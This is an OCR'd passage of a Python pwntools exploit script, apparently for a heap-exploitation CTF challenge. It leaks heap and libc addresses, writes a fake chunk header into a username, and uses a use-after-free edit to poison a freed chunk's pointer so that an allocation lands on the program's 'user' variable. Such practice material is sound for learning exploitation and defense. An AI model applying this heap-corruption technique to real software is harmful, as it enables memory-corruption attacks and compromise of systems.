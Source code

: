 ```python=
    success("heap leak")
    info('heap @ ' + hex(heap))
    return puts, heap

def send_name(name):
    io.sendafter(b'Enter your username: ', name)
    io.recvuntil(b'> ')

def malloc(size):
    global index
    io.send(b'1')
    io.sendafter(b'size: ', str(size).encode())
    io.recvuntil(b'> ')
    index += 1
    return index - 1
    

def free(index):
    io.send(b'2')
    io.sendafter(b'index: ', str(index).encode())
    io.recvuntil(b'> ')

def edit(index, data):
    io.send(b'3')
    io.sendafter(b'index: ', str(index).encode())
    io.sendafter(b'data: ', data)
    io.recvuntil(b'> ')

def target():
    io.send(b'4')
    io.recvuntil(b'> ')

def quit():
    io.send(b'5')
    
def start():
    if args.GDB:
        return gdb.debug(elf.path, env={"LD_PRELOAD": libc.path},gdbscript=gs)
    elif args.REMOTE:
        return remote('', )
    else:
        return process(elf.path, env={"LD_LIBRARY_PATH": libc.path})

io = start()
puts, heap = handle()

name = p64(0) + p64(0xa1) + p64(0) + p64(elf.sym['user'] - 0x10)
send_name(name)

chunk_A = malloc(0x88)
chunk_B = malloc(0x88)

free(chunk_A)
edit(chunk_A, p64(0) + p64(elf.sym['user']))


#one way
'''
chunk_A2 = malloc(0x88)
fake_chunk = malloc(0x98)
'''

fake_chunk = malloc(0x98)
```